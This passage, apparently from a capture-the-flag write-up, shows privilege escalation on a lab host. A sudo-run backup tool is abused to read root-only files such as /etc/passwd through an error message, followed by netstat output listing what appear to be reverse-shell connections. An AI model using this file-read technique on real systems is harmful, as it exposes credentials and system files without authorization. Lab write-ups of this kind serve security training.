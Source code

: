 Normal operation is to pass a list of files as conf
```
network_admin@core01:~$ sudo admin_backup backup --conf-file=/root/backup.conf  
[+] Reading configuration file.
[+] Making backup.
```

But This program has a vulnerability: it reads a file and attempts to save each line to a new file. If we set the "error output file path" to point to another file, the program could read the first line of that file.

More importantly, if the program is run with `sudo` (superuser) privileges, the file read and save operations will also be performed with root privileges. This allows us to read sensitive files as root that we shouldn't have access to.

For example
```
network_admin@core01:~$ sudo admin_backup backup --conf-file=/etc/passwd
[+] Reading configuration file.
[+] Making backup.
Traceback (most recent call last):
  File "/usr/bin/admin_backup", line 45, in <module>
    backup(confFile)
  File "/usr/bin/admin_backup", line 28, in backup
    content = open(line, 'r').read()
FileNotFoundError: [Errno 2] No such file or directory: 'root:x:0:0:root:/root:/bin/bash'  
```

But we still need others to help us get shell as root.

Continue to check the port services 
```
network_admin@core01:~$ netstat -nat
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address           Foreign Address         State      
tcp        0      0 127.0.0.1:22            0.0.0.0:*               LISTEN     
tcp        0      0 172.22.43.1:3128        0.0.0.0:*               LISTEN     
tcp        0      0 0.0.0.0:45183           0.0.0.0:*               LISTEN     
tcp        0      0 0.0.0.0:37769           0.0.0.0:*               LISTEN     
tcp        0      0 0.0.0.0:39851           0.0.0.0:*               LISTEN     
tcp        0      0 127.0.0.1:37453         127.0.0.1:4369          ESTABLISHED  
tcp        0      0 10.13.37.13:45624       10.10.14.4:9001         ESTABLISHED  
tcp        0      0 10.13.37.13:46926       10.10.16.8:9008         ESTABLISHED  
tcp        0      0 127.0.0.1:41703         127.0.0.1:4369          ESTABLISHED  
tcp        0      0 127.0.0.1:33626         127.0.0.1:22            ESTABLISHED  
tcp        0      0 127.0.0.1:22            127.0.0.1:33626         ESTABLISHED  
tcp        0      0 10.13.37.13:43014       10.10.14.4:4444         ESTABLISHED  
tcp        0      0 10.13.37.13:52936       10.10.16.8:9006         ESTABLISHED  
tcp        0      0 172.22.43.1:3128        172.22.43.142:37142     ESTABLISHED  
tcp        0      0 127.0.0.1:45881         127.0.0.1:4369          ESTABLISHED  
tcp6       0      0 :::4369                 :::*                    LISTEN     
tcp6       0      0 127.0.0.1:4369          127.0.0.1:37453         ESTABLISHED  
tcp6       0      0 127.0.0.1:4369          127.0.0.1:45881         ESTABLISHED  
tcp6       0      0 127.0.0.1:4369          127.0.0.1:41703         ESTABLISHED  
```
